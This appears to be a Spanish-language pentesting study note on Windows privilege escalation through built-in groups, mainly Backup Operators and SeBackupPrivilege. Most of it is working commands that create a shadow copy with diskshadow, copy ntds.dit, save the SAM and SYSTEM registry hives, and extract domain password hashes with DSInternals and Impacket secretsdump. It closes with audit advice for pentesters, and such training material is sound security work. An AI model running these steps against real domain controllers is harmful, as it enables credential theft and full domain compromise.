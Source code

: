 # Windows Privilege Escalation: Built-in Groups

## Resumen

Windows incluye varios grupos integrados con privilegios especiales, sobre todo en servidores y controladores de dominio. Algunos de estos grupos pueden usarse para escalar privilegios si se compromete una cuenta miembro. Esta nota resume los principales grupos y el uso del privilegio **SeBackupPrivilege** para acceder a archivos protegidos como `ntds.dit`, `SAM` y `SYSTEM`.

## Grupos integrados relevantes

- **Backup Operators**
- **Event Log Readers**
- **DnsAdmins**
- **Hyper-V Administrators** *(desde Server 2012)*
- **Print Operators**
- **Server Operators**

> Es importante auditar la membresía de estos grupos y verificar si hay cuentas con acceso innecesario o excesivo.

## Backup Operators y SeBackupPrivilege

- **Permisos otorgados**: `SeBackupPrivilege` y `SeRestorePrivilege`
- Permite **leer cualquier archivo del sistema**, ignorando las ACLs (listas de control de acceso).
- No se puede usar `copy` directamente. Se necesita usar librerías con `FILE_FLAG_BACKUP_SEMANTICS`.

### Activación de privilegios en PowerShell:

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege
Set-SeBackupPrivilege
```

### Verificación del privilegio:

```powershell
whoami /priv
```

### Ejemplo: copiar archivo protegido

```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

## Ataque a un Domain Controller (DC)

### Objetivo: copiar `ntds.dit` usando shadow copy

```powershell
diskshadow.exe
> set verbose on
> set metadata C:\Windows\Temp\meta.cab
> set context clientaccessible
> begin backup
> add volume C: alias cdrive
> create
> expose %cdrive% E:
> end backup
exit
```

Ahora el volumen `E:` contiene una copia de la partición `C:`.

### Copiar `ntds.dit`

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Copiar hives del registro

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

> ⚠️ Si hay una entrada explícita de denegación en la ACL para el usuario, ni `SeBackupPrivilege` permitirá acceder.

## Extracción de hashes

### Usando DSInternals:

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### Usando Impacket secretsdump:

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## Alternativa con Robocopy

Robocopy permite copiar archivos usando modo backup (`/B`).

```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

## Recomendaciones para el pentester

- Siempre revisar la membresía de los grupos privilegiados.
- Documentar qué cuentas tienen `SeBackupPrivilege` habilitado.
- Si se explota el privilegio, dejar constancia detallada de:
  - Qué archivos se accedieron (ej: `ntds.dit`, `SAM`, `SYSTEM`).
  - Qué hashes se extrajeron.
  - Qué herramientas se usaron (`DSInternals`, `secretsdump.py`, etc.).
- Sugerir eliminación de membresías innecesarias y mejoras en políticas de contraseñas.

